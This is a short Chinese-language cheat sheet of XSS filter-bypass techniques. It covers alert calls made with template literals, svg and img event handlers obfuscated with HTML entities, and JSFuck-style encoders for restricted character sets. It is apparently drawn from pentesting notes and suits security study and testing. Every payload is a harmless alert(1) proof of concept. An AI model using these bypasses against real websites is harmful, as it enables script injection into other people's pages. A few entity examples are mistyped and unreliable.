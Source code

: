 Credit: [Gareth Heyes](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)  

----------------

## XSS Filter Bypasses
用 JS template literals 來呼叫 function

```html
<svg onload=alert`1`></svg>
<script>alert`1`</script>
```

### 濫用 HTML entities
請注意，這只對 HTML injection 起作用
- 如果值被直接注入到 script tag 中，則不會起作用
- 這是因為解碼是在 HTML parser 中進行的
- 而在 script tag 間的任何東西都會被直接發送到 javacript engine，而不會被解碼

```html
<svg onload=alert&lpar;1&rpar;></svg>
```
```html
<img src=x onerror=&#x22;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x22;>
```
```html
<svg onload=alert&#x28;1&#x29></svg>
```
```html
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>
```
```html
<svg onload=alert&#40;1&#41></svg>
```


HTML entities encoder 可用 [html-entities](https://mothereff.in/html-entities)
- 記得取消勾選 `only encode unsafe ...` 選項

你可以使用三套不同的 HTML entities encoding，並組合它們
- (`&plar; -> (`), hex (`&x28; -> (`) and decimal (`&#40; -> (`)


### 限制性符號集
這 3 個網站會將有效的 JS 轉化為可怕的怪物，有很大的機會繞過很多過濾器：
1. `JSFuck`: 將任意 JS 翻譯成可執行的 JS，只用 6 個符號。缺點是，複雜的 javascript payload 會變得非常長
    - http://www.jsfuck.com/
2. `JSFsck – JSFuck without parentheses`: 與上相同，但更多的限製符號集
    - https://github.com/centime/jsfsck
3. `jjencode`: 情況特殊，但也是值得了解的。
    - https://utf-8.jp/public/jjencode.html
4. `arubesh.js`: 在 JSFuck 的基礎上需要一些額外的符號，但如果空間有限，加上寬鬆的過濾，可能會很有用
    - https://aem1k.com/aurebesh.js/



### 關鍵字過濾
避免關鍵詞被過濾、特定的 substrings：
- 利用各種技巧來繞過過濾器
